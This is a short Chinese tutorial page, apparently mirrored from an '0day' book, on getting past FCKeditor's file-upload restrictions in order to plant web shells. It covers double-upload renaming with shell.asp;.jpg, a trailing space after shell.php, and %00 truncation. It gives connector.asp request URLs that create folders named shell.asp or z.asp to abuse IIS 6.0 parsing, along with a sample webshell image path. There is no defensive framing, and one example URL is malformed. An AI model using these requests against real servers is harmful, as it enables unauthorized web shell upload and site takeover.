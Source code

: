 # 上传限制

> 原文：[http://book.iwonder.run/0day/FCKeditor/3.html](http://book.iwonder.run/0day/FCKeditor/3.html)

上传限制的突破方式很多，主要还是抓包改扩展名，%00 截断，添加文件头等

# 文件名限制

## 二次上传绕过

文件名‘ . ’ 修改为‘ _ ’

FCK 在上传了诸如 shell.asp;.jpg 的文件后，会自动将文件名改为 shell_asp;.jpg。可以继续上传同名文件，文件名会变为 shell.asp;(1).jpg

## 提交 shell.php+空格绕过

提交 shell.php+空格绕过

空格只支持 windows 系统，linux 系统是不支持的，可提交 shell.php+空格来绕过文件名限制。

# iis6.0 突破文件夹限制

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp 
```

# 文件解析限制

通过 Fckeditor 编辑器在文件上传页面中，创建诸如 1.asp 文件夹，然后再到该文件夹下上传一个图片的 webshell 文件，获取其 shell。

```
http://www.0-sec.oimg/upload/201806/image/1.asp/1.jpg 
```

